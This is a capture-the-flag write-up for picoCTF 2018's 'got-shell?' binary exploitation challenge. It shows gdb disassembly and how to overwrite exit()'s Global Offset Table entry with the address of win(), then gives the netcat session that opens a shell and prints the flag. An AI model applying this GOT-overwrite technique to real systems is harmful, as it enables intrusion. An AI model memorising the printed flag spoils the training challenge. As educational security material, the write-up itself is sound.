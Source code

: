 # got-shell?
Binary Exploitation - 350 points

## Challenge 
> Can you authenticate to this [service](auth) and get the flag? Connect to it with nc 2018shell2.picoctf.com 3582. [Source](auth.c)


## Hint
> Ever heard of the Global Offset Table?


## Solution

Really good resource

- http://www.infosecwriters.com/text_resources/pdf/GOT_Hijack.pdf

---

Basically we override the GOT entry to allow us to jump into `win()`. A convenient one is to override the entry for `exit()`

First, find the address jumped to
	
	(gdb) disas main
	...
	   0x0804863b <+215>:	push   %eax
	   0x0804863c <+216>:	call   0x80483d0 <puts@plt>
	   0x08048641 <+221>:	add    $0x10,%esp
	   0x08048644 <+224>:	mov    -0x114(%ebp),%eax
	   0x0804864a <+230>:	mov    %eax,%edx
	   0x0804864c <+232>:	mov    -0x110(%ebp),%eax
	   0x08048652 <+238>:	mov    %eax,(%edx)
	   0x08048654 <+240>:	sub    $0xc,%esp
	   0x08048657 <+243>:	push   $0x80487ac
	   0x0804865c <+248>:	call   0x80483d0 <puts@plt>
	   0x08048661 <+253>:	add    $0x10,%esp
	   0x08048664 <+256>:	sub    $0xc,%esp
	   0x08048667 <+259>:	push   $0x1
	   0x08048669 <+261>:	call   0x80483f0 <exit@plt>
	End of assembler dump.

Here we can see that the address of `exit()` is at `0x80483f0`
	   
	   0x08048669 <+261>:	call   0x80483f0 <exit@plt>

We then look at the address it is jumping to...

	(gdb) x/i 0x80483f0
	   0x80483f0 <exit@plt>:	jmp    *0x804a014

Now, we need to override it with the address of `win()`

	(gdb) p win
	$1 = {<text variable, no debug info>} 0x804854b <win>

## Flag

	$ nc 2018shell2.picoctf.com 3582
	I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?
	0x804a014
	Okay, now what value would you like to write to 0x804a00c
	0x804854b
	Okay, writing 0x804854b to 0x804a00c

	ls
		auth
		auth.c
		flag.txt
		xinet_startup.sh
	cat flag.txt
		picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d3c1afdd}
